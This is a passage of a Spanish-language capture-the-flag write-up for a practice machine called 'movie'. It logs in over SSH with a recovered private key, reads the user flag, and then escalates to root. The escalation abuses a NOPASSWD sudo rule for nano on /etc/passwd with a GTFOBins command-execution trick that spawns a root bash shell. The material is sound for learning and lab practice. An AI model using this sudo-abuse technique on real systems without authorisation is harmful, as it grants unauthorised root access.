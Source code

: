 ## Entrar como usuario 

Bueno ahora si tenemos algo super interesante que es una private key. Asi que nos conectaremos mediante ssh y encontramos la flag de user

```bash
❯ ssh tarantino@10.0.2.27 -i id_rsa 
Last login: Wed Oct  5 08:17:15 2022 from 192.168.0.22

tarantino@movie:~$ ls
user.txt
tarantino@movie:~$ cat user.txt
********************545054d3e8db
```

## Escalacion de Privilegios

Una vez dentro procedemos a ver que podemos realizar para escalar privilegios.

```bash
tarantino@movie:~$ sudo -l
Matching Defaults entries for tarantino on movie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tarantino may run the following commands on movie:
    (root) NOPASSWD: /usr/bin/nano /etc/passwd
```

Viendo la pagina https://gtfobins.github.io/gtfobins/nano/
Asi que siguiendo los pasos me generare una shell como root 

```bash
tarantino@movie:~$ sudo /usr/bin/nano /etc/passwd
```

Una vez dentro de nano
``ctrl+R`` ``ctrl+X`` ``reset; /bin/bash 1>&0 2>&0``
De esta manera obtenemos una shell

```bash
sh-5.1# cd /root
sh-5.1# ls
root.txt
sh-5.1# cat root.txt
***********************3fd6e6f52
```